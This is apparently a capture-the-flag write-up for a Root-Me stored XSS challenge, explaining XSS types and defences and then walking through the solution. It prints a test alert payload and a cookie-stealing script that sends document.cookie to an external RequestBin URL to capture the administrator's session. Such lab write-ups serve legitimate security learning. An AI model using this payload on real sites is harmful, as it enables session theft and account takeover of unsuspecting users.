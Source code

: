 ```yaml
---
title : Stored XSS
date : 2024-01-02 13:13:00 +0100
categories : [Root-me, Web Client]
tags : [security breach, xss] # TAGS names should always be lowercase
---
```

## Cross-Site Scripting

This [Root-Me](https://www.root-me.org/?page=news&lang=en) challenge introduces the XSS security breach. Let's define the what this vulnerability is.

An XSS (Cross-Site Scripting) flaw is a common security vulnerability that can occur in web applications. It allows attackers to inject and execute malicious code (usually JavaScript) into web pages viewed by other users.

The XSS attack occurs when the web application fails to filter properly data provided by the user and inserts it directly into web pages without encoding the data. This allows an attacker to inject malicious code that will be executed by users' browsers.

There are different types of XSS vulnerabilities:

* **Stored XSS** : Malicious data is stored on the server and displayed on web pages viewed by users. For example, an attacker could inject JavaScript code into a comment field which would then be displayed on a web page, affecting all users viewing that page.

* **Reflected XSS** : Malicious data is included in the page URL and sent back to the server, which then sends it back in the response without filtering it properly. This allows the attacker to create links or direct users to pages containing malicious code.

* **DOM-based XSS** : The XSS attack occurs at the level of the client-side Document Object Model (DOM). The attacker directly modifies the DOM of the web page, which can lead to the execution of malicious code by the user's browser.

XSS attacks can have serious consequences, such as stealing user sessions, disclosing sensitive information, distributing malware or modifying page content. To protect against XSS vulnerabilities, it is essential to implement appropriate security measures, such as validating and filtering input data, encoding data when it is displayed on web pages, and using security mechanisms such as **Content Security Policies** (CSP) to limit authorized script sources.

## Resolution of the challenge

Here the vulnerability is located in the comment section of the web page. It is a **stored XSS** because the comments are saved on the web page. In order to reveal it, I uploaded a comment containing this command :

```html
<script> alert(1) </script>
```
When I sent it, the alert immediatly showed on my browser.
![alert](/img/stored-xss/alert.png)
*XSS vulnerability discovered*

The comment was saved in the *Posted messages* section.
![comment](/img/stored-xss/comment.png)
*Testing for XSS*

Now that the XSS has been detected, I created a [RequestBin](https://pipedream.com/requestbin) in order to steal the administrator session cookie. I sent a command to redirect the web page to my RequestBin : 
```html
<script>document.location='https://eon2qokz2s82vss.m.pipedream.net?cookies =' + document.cookie;</script>
```
Lastly, I received two requests, the first one contained the Google Analytics cookies and the last one provided me the admin cookie.

![answer](/img/stored-xss/answer.png)
*Reception of the cookies*

The password was in the cookie !


